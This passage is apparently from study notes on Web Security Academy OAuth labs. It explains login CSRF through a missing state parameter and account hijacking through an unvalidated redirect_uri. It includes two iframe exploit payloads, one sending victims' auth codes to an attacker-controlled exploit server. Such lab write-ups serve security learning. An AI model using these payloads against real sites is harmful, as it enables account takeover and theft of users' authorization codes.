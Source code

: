 If the site allows users to login exclusively via OAuth, the `state` parameter is less critical, but not using it can still allow the construction of login CSRF attacks, by tricking the user into logging in to the attacker's account.

For example, after attaching a social media profile to the website, the OAuth flow completes. Try logging out and choosing the "Login with social media" option. Analyse the requests and observe in the `GET /auth?client_id[..]` request that the `redirect_uri` sends the auth code to `/oauth-linking`.

Check that the request does not include a `state` parameter. 

Try attaching a social media profile again and intercepting the `GET /oauth-linking` request and copy the URL but dropping the request to ensure the code is valid. 

To exploit, try creating an iframe where the src points to the URL copied:

```html
<iframe src="https://0aab00ca0453474382a9d54100790080.web-security-academy.net/oauth-linking?code=P17d6L-esQtYDDocuqAlaQFjRTrYP4ejBV2i2Pfriq0"></iframe>
```

Save it in the exploit server and deliver it to the victim to complete the OAuth flow using the attacker social media profile. Attempting to login with social media after exploiting may login as another user.
# Account Hijacking via redirect_uri

Another method is when the config of OAuth enables you to steal auth codes or access tokens for other user accounts. Depending on grant type, either a code or token is sent to victim browser via the `/callback` endpoint specified in `redirect_uri`. 

If OAuth service fails to validate URI properly, a CSRF attack can be constructed, tricking victim browser into initiating an OAuth flow that will send the code/token to an attacker controlled `redirect_uri`.

For authorization code flow, an attacker can steal the victim code before it's used. The code can be sent to the client app's legitimate `/callback` endpoint to get access to the account. Attackers don't need to know the client secret or resulting access token.

If the victim has a valid session with OAuth service, the client app simply completes the code/token exchange on the attacker's behalf before logging them into the victim's account. 

>[!info]
>Using `state` or `nonce` protection does not prevent these attacks since an attacker can create new values from their own.

For example, try completing the full OAuth login process, then log out and back in to check if you are logged in instantly - if so, there is an active session with OAuth. Analyse the OAuth flow and identify the authorization request `GET /auth?client-id=[..]` - when sent, check if it immediately redirects to the URI with the code.

Try submitting any value as the URI to see if errors occur. If not, the input is used to generate the redirect. Try changing the URI to a URL you control and follow the redirect and check logs for your server for an auth code.

To exploit, create an iframe such as the below and send to victims:

```html
<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```
